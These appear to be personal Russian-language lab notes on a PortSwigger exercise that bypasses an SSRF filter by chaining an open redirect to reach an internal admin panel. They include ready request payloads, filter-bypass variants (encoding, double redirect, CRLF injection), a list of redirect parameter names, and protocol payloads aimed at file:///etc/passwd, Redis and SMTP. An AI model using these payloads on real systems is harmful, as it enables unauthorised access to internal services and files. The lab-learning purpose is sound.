







## **Open Redirect**
**Open Redirect** (Открытое перенаправление) — уязвимость, когда приложение перенаправляет пользователя на произвольный внешний URL без должной проверки.

лаба
https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection


`задание  - попасть на админ панель и удалить карлоса
`http://192.168.0.12:8080/admin and delete the user `carlos`


----


### Обход фильтров SSRF с помощью открытого перенаправления

смысл в том чтобы найти открытый редирект, потом добавить туда такой url который удовлетворяет всем требованиям, не блокируется,

```http
пример
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

пример
```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```


если  **SSRF-фильтр** строго проверяет домен (whitelist/blacklist)
но **внутри разрешённого домена** есть endpoint с Open Redirect
тогда = -  делаем цепочку: Разрешённый домен → Open Redirect → Целевой внутренний ресурс
вот так: 
Наш запрос → [Разрешённый домен с Open Redirect] → [Внутренний ресурс]

примеры
```http
1
POST /stock HTTP/1.1

просто подставил свой url
stockApi=https://allowed-domain.com/redirect?url=http://192.168.1.1/admin

кодировка
stockApi=https://allowed-domain.com/redirect?url=http%3A%2F%2F127.0.0.1%3A8080%2Fadmin

двойное перенаправление
stockApi=https://allowed-domain.com/redirect1?url=https://allowed-domain.com/redirect2?url=http://localhost/admin
```

# примеры работы фильтров

```http
проверка что начинается url с разрешен домена

# Фильтр: if url.startswith("https://allowed-domain.com/")
# Обход:
https://allowed-domain.com/redirect?url=http://internal/admin

проверка на содержание во всем url нужного домена
# Фильтр: if parse_url(url).host == "allowed-domain.com"


Фильтр блокирует "url=", "redirect=", "to="
# Обход:
https://allowed-domain.com/redirect?u=http://internal/admin
https://allowed-domain.com/redirect/%0d%0aLocation:%20http://internal/admin
u= тоже что и url=
%0d%0a    это  перенос строки (\r\n) с возвратом в нач строки


```


# как понять что есть возможность редиректа


```text
------------------------------------------------
redirect, 
redirect_to, 
redirect_url, 
url, 
to, 
goto, 
next,
return,
returnTo, 
destination,
target,
r, 
u,
n, 
forward,
forward_url,
view,
image_url,       
file_url,
load,
link,
out, 
external,
ext,
exit,
source,
src,
etc

------------------------------------------------
пробовать протоколы

# HTTP → HTTP
https://allowed.com/redirect?url=http://internal

# HTTP → file://
https://allowed.com/redirect?url=file:///etc/passwd

# HTTP → gopher:// (для старых систем)
https://allowed.com/redirect?url=gopher://127.0.0.1:25/xHELO%20...

# HTTP → dict:// (для Redis, Memcached)
https://allowed.com/redirect?url=dict://127.0.0.1:6379/INFO

--------------------------------------------------
поиск в заголовке

GET /redirect?url=/xxx HTTP/1.1

---------------------------------------------------
баги в библиотеках

# Node.js: url.parse() с allowAuth
https://allowed.com/redirect?url=http://@127.0.0.1@allowed.com/

# PHP: parse_url() особенности
https://allowed.com/redirect?url=http://localhost:80&x=http://evil.com

---------------------------------------------------


```

-----------
----------

базовый запрос с потенциально уязвимым url




но здесь не видно явного open redirect 
и подставление разных путей не дает результата

но если нажать на следующую страницу - то в запросе на ее получение есть
path который обозначает имя параметра (тоже самое что и url, redirect, next)
но в этом запросе нет открытого парметра как в предыдущем запросе!




подставил в него пейлоад доступа к админ панели 
и получил отличный ответ! 302 - доступ есть


# ключевой момент
теперь зная путь до админки - можно использовать известный ранее URL находящийся в параметре (что уже нам подсказывает на возможность ssrf)

подставляю в него известный теперь путь




ошибка из-за & так как нужно закодировать

сработало




перехватил запрос на удаление юзера
теперь я знаю путь для нужного мне функционала







подставил путь в url  уязвимый параметр и команда выполнилась!
лаба решена!




# выводы
эта лаба учит тому, что нужно понимать взаимосвязь между всеми экранами и запросами в приложении

был SSRF уязвимый параметр 
был открытый редирект через который я подобрал путь к админке
и потом совместил обе уязвимости в одну!
передал валидный путь полученный через опен редирект в URL находящийся в параметрах!
# почему удалось решить
приложение не запрещало мне через редирект посещать разные страницы
в том числе внутренние,
не валидировался url который был в параметрах запроса и позволил мне вводить там все что я захочу, как минимум - я получил доступ из внешней сети к внутренней, пусть даже через валидные запросы внутренней сети,
неограниченное число запросов с одного ip без блокировки,

если каждый из эндпоинтов имел слабую защиту
то я использовал их слабые стороны сразу


